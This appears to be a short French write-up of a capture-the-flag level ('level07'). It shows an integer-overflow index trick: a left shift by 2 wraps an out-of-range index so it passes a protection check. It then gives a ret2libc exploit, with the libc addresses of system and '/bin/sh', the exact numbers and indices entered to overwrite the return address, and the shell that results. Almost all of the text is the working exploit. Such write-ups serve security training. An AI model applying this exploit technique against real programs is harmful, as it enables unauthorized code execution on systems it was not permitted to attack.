 # level07

le programme fait un `<< 2` sur l'index

donc  un int qui vaut 0b1000000000000000000000001110010 va valoir 0b0000000000000000000000111001000 apres un `<< 2`

qui vaut 456 et donc l'index 114 d'un tableau d'int



0xf7e6aed0 system

0xf7f897ec "/bin/sh"


Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ ls
ls: cannot open directory .: Permission denied

